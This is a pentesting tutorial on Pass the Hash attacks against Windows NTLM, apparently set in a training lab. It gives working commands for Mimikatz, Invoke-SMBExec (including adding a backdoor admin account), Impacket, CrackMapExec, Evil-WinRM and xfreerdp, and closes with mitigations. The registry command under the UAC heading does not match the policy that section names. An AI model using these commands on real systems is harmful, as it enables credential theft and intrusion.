 ```yaml
---
title: "Pass the Hash (PtH) Attack: A Practical Guide"
date: 2025-05-25 00:00:00 +0000
tags: [pentesting, windows, mimikatz, impacket, red-teaming]
categories: [security, red-teaming]
pin: false
----------

A Pass the Hash (PtH) attack is a technique in which an attacker uses a password hash to authenticate to remote systems instead of the plaintext password. This method exploits authentication protocols like NTLM that accept hashed credentials without decrypting them. Since the hash remains valid until the user changes the password, it can be reused multiple times, making it a powerful attack vector.

---
```


### Requirements for a PtH Attack

To execute a PtH attack, the attacker typically needs elevated privileges on the target system to extract password hashes. Common methods to acquire these hashes include:

* Dumping the Security Account Manager (SAM) database.
* Extracting hashes from the NTDS.dit file on a Domain Controller.
* Retrieving hashes from memory (e.g., `lsass.exe`).

---

## Windows NTLM Overview

NTLM (New Technology LAN Manager) is a challenge-response authentication protocol still used in Windows environments, primarily for backward compatibility. However, it lacks modern security features like salting passwords, making it vulnerable to PtH attacks.

Read more at Microsoft's documentation: [NTLM Authentication](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm)

---

## Performing PtH Attacks

### 1. **Using Mimikatz (Windows)**

Mimikatz includes the `sekurlsa::pth` module, which starts a new process with a specified user's hash:

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe"
```

Reference: [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)

### 2. **Invoke-TheHash (Windows)**

Invoke-TheHash is a PowerShell toolset for PtH attacks using SMB and WMI:

```powershell
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add"
```

For a reverse shell, use: [https://www.revshells.com](https://www.revshells.com)

Tool: [Invoke-TheHash GitHub](https://github.com/Kevin-Robertson/Invoke-TheHash)

### 3. **Impacket PsExec (Linux)**

Impacket provides various Python-based tools for network attacks:

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Impacket GitHub](https://github.com/fortra/impacket)

### 4. **CrackMapExec (Linux)**

CrackMapExec is ideal for automating enumeration and attack steps in AD environments:

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

Documentation: [NetExec Wiki](https://netexec.readthedocs.io/en/latest/)

### 5. **Evil-WinRM (Linux)**

Evil-WinRM allows PowerShell Remoting with hashes:

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)

### 6. **Using xfreerdp for RDP (Linux)**

Ensure Restricted Admin Mode is enabled, then:

```bash
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

More on configuring RDP for PtH: [FreeRDP Wiki](https://github.com/FreeRDP/FreeRDP/wiki)

---

## UAC and LocalAccountTokenFilterPolicy

UAC restricts remote administrative access for local accounts unless configured properly. Modify these registry keys to enable remote use:

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

For more details, see Will Schroeder’s blog: [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

---

## Conclusion

Pass the Hash remains a critical threat in Windows environments relying on NTLM. Tools like Mimikatz, Impacket, and CrackMapExec make exploitation straightforward if proper defenses aren't in place. Organizations should consider mitigating PtH by disabling NTLM where possible, enforcing strong credential hygiene, using LAPS, and monitoring authentication logs.

**Always test ethically and in controlled environments. For educational use only.**
